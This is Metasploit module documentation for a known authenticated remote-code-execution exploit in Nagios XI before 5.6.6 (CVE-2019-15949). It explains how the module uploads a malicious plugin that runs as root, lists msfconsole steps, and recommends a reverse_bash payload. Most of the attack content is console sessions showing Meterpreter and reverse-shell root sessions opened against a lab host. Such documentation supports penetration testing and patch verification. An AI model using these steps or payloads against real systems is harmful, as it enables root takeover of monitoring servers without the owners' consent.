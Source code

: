 ## Vulnerable Application
This module exploits a vulnerability (CVE-2019-15949) in Nagios XI before 5.6.6 in order to execute arbitrary commands as root.

The module's `check` method takes advantage of the `Msf::Exploit::Remote::HTTP::NagiosXi` mixin in order to authenticate to the target and
obtain the Nagios XI version number, which is then used to check if the target is Nagios XI prior to version 5.6.6 and therefore vulnerable.

Next, the module uploads a malicious plugin to the target and subsequently sends an HTTP GET request to `profile.php?cmd=download`.

This request downloads a system profile from the server and in the process launches the `getprofile.sh` script as root
via a passwordless sudo entry. This script executes the malicious plugin as root.

For all supported targets except `Linux (cmd)`, the module uses a command stager to write the exploit to the target via a malicious plugin.
However, this method may not work if Nagios XI is running in a restricted Unix environment like a minimal/custom CentOS installation.
In the latter case, the target must be set to `Linux (cmd)` and it is recommended to use the default `cmd/unix/reverse_bash` payload.

If the target is found to be vulnerable but the module completes without establishing a session,
try increasing the value of `WfsDelay` (the additional delay when waiting for a session).
The default value of this advanced option is 10 seconds. To check it, run `show advanced`.
Other possible solutions are changing the payload, manually setting the value of the `CMDSTAGER::FLAVOR` advanced option,
and setting the target to `Linux (cmd)` as explained above.

Valid credentials for a user with administrative privileges are required.
This module was successfully tested on Nagios XI 5.6.5 running on CentOS 7.
Please note that the module may behave differently when run against older versions of Nagios XI.
or instance, during a test against Nagios XI 5.4.10, the module failed to trigger execution of the payload.
Instead, the payload was executed randomly after a period of time (up to 5 minutes).
Moreover, the session that was ultimately established, was not a root session.

Vulnerable software for testing is vavailable [here](https://assets.nagios.com/downloads/nagiosxi/versions.php).
Detailed installation instructions are available
[here](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf)
and an official video tutorial is available [here](https://www.youtube.com/watch?v=fBWA6t6dJ4I).

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/nagios_xi_plugins_check_ping_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set USERNAME [username for the Nagios XI account]`
5. Do: `set PASSWORD [password for the Nagios XI account]`
6. Do: `set target [target]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options
### PASSWORD
The password for the Nagios XI account to authenticate with.
### TARGETURI
The base path to Nagios XI. The default value is `/nagiosxi/`.
### USERNAME
The username for the Nagios XI account to authenticate with. The default value is `nagiosadmin`.

## Targets
```
Id  Name
--  ----
0   Linux (x86)
1   Linux (x64)
2   Linux (cmd)
```

## Scenarios
### Nagios XI 5.6.5 running on CentOS 7 - Linux (x64) target
```
msf6 exploit(linux/http/nagios_xi_plugins_check_ping_authenticated_rce) > show options 

Module options (exploit/linux/http/nagios_xi_plugins_check_ping_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nagiosadmin      yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.14     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /nagiosxi/       yes       The base path to the NagiosXi application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)



msf6 exploit(linux/http/nagios_xi_plugins_check_ping_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:6001 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the plugin to request the final payload...
[*] Sending stage (3008420 bytes) to 192.168.1.14
[*] Meterpreter session 1 opened (192.168.1.12:6001 -> 192.168.1.14:43402) at 2021-02-01 16:16:32 -0500
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
```
### Nagios XI 5.6.5 running on CentOS 7 - Linux (x86) target
```
msf6 exploit(linux/http/nagios_xi_plugins_check_ping_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:6002 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (809/809 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the plugin to request the final payload...
[*] Sending stage (976712 bytes) to 192.168.1.14
[*] Meterpreter session 2 opened (192.168.1.12:6002 -> 192.168.1.14:43916) at 2021-02-01 16:16:54 -0500
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
```

### Nagios XI 5.6.5 running on CentOS 7 - Linux (cmd) target
```
msf6 exploit(linux/http/nagios_xi_plugins_check_ping_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:6004 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the payload to connect back...
[*] Command shell session 4 opened (192.168.1.12:6004 -> 192.168.1.14:34600) at 2021-02-01 16:17:27 -0500
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

id
uid=0(root) gid=0(root) groups=0(root)
```
